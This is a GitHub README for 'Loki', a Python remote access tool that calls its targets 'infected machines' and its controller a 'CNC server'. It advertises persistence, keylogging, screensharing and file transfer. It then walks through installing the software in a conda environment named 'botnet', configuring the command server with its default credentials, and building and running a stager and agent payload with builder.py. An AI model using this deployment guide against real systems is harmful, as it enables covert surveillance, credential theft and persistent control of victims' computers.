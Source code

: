 # Loki

Loki is a simple **R**emote **A**ccess **T**ool.<br/>
Loki uses **RSA-2048** with **AES-256** to keep your communication with infected machines secure.<br/>

<img src="Screenshots/bots.png" atl=""/>

### Disclaimer

```
THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```

### Requirements

-   Python **3.6.x** | **3.7.x** | **3.8.x**

### Server tested on

-   Windows 10
-   Kali Linux
-   MacOS 10.15

### Bot tested on

-   Windows 10
-   MacOS 10.15

### Payload generator tested on

-   Windows 10
-   MacOS 10.15

### Features

-   Upload & Download
-   Chrome Launching
-   Persistence
-   Screenshare
-   Screenshot
-   Keylogger
-   SFTP
-   SSH

### Video from OG dev (enjoy the music!)

https://www.youtube.com/watch?v=UTfZlXGoJ5Y

### Installation

I reccommend you setup a new anaconda virtual environment for package management. As of December 2021, the best resource for installing Anaconda is downloading the [Miniconda](https://docs.conda.io/en/latest/miniconda.html) package for your particular machine and setup.

```shell
conda create --name botnet python=3.7
conda activate botnet
```

Once the env is activated (or if you like living recklessly and don't create a dedicated environment) you can install the necessary packages referencing the `requirements.txt`:

```shell
pip install -r requirements.txt
```

### Server side

1. Open `/lib/const.py` & configure your private and public IP's
2. Start loki.py
3. Navigate to http://localhost:5000
4. Login

    ```
    Username: loki
    Password: ikol
    ```

5. Start the server on the same IP as your private IP

### Generate a payload

Navigate to agent directory and run the following command to check all command line parameters `builder.py` accepts. 

```shell
python builder.py -h
```

Run the below to generate a standard agent.

```shell
python builder.py -i 127.0.0.1 -p 8080 -n testagent
```

**While not verified, it's likely the codebase will not compile inside a virtual environment**

Now, once the stager is generated (named `testagent`), move to the `output` directory and run the executable. 

```shell
cd output
./testagent
```

This will generate the agent payload, `testagent_`, in the same output directory. You'll likely need to change the permissions on the payload, so run the following:

```shell
chmod 754 testagent_
./testagent_
```

After a moment or two of waiting, you should see you machine's information pop up on the CNC server front end, above the terminal window (as pictured in the screenshot above).

### After connection

-   You can click the id of the bot once it connects

### FYI

-   The bot will call the server using the Public IP, not the private IP
-   The bot will call the server using the port specified on the server tab
